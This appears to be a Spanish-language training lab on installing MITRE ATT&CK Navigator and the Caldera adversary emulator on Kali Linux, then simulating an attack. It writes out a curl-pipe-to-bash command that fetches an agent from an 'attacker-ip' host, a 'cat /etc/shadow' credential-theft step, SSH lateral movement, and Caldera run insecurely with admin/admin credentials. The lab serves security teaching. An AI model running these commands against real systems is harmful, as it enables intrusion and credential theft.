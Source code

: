 ![M1](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%201%402Menbrete1.png)

# **Practica - Instalación de MITRE ATT&CK en Kali Linux**



MITRE ATT&CK se puede utilizar con herramientas en Kali Linux para emular ataques y analizar vulnerabilidades.

### **📌 Paso 1: Instalar ATT&CK Navigator**

ATT&CK Navigator permite visualizar y personalizar la matriz MITRE ATT&CK.

1. Clonar el repositorio de Navigator:

   ```bash
   git clone https://github.com/mitre-attack/attack-navigator.git
   ```

2. Instalar dependencias:

   ```bash
   cd attack-navigator/nav-app
   npm install
   ```

3. Iniciar el servidor de Navigator:

   ```bash
   npm run start
   ```

4. Acceder en el navegador:

   ```bash
   http://localhost:4200
   ```

------

### **📌 Paso 2: Instalar Caldera (Simulador de Adversarios)**

Caldera es una plataforma automatizada que emula ataques de MITRE ATT&CK.

1. Clonar el repositorio:

   ```bash
   git clone https://github.com/mitre/caldera.git --recursive
   ```

2. Instalar dependencias:

   ```bash
   cd caldera
   pip3 install -r requirements.txt
   ```

3. Iniciar el servidor:

   ```python
   python3 server.py --insecure
   ```

4. Acceder en el navegador:

   ```bash
   http://localhost:8888
   ```

   Usuario: 

   ```
   admin
   ```

   Contraseña: 

   ```
   admin
   ```

------

## **3. Práctica: Simulación de Ataques con Caldera y ATT&CK**

Vamos a realizar una **simulación de ataque** utilizando Caldera y analizarlo con ATT&CK Navigator.

### **Escenario**

Un atacante ha comprometido una máquina en la red y busca escalar privilegios y moverse lateralmente.

------

### **📌 Paso 1: Crear un Agente en la Máquina Objetivo**

1. En **Caldera**, navega a **"Agents" → "Add Agent"**.

2. Selecciona **Linux** como SO objetivo.

3. Copia el comando generado y ejecútalo en la máquina víctima:

   ```bash
   curl -s http://attacker-ip:8888/file/agent.sh | bash
   ```

   Esto establecerá una sesión de agente en la máquina objetivo.

------

### **📌 Paso 2: Ejecutar Tácticas de MITRE ATT&CK**

Desde Caldera, podemos ejecutar tácticas de la matriz ATT&CK:

1. Enumeración del sistema  ( Discovery Tactic - T1082 ):

   ```
   uname -a
   whoami
   id
   ```

2. Robo de Credenciales  ( Credential Access - T1003 ):

   ```bash
   cat /etc/shadow
   ```

3. Movimiento Lateral ( Lateral Movement - T1077 ):

   ```bash
   ssh usuario@victima-ip
   ```

------

### **📌 Paso 3: Analizar los Resultados con ATT&CK Navigator**

1. Exporta los registros de Caldera.
2. En **ATT&CK Navigator**, carga los datos y marca las técnicas utilizadas.
3. Analiza cómo las tácticas se alinean con los ataques reales documentados por MITRE.







![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)



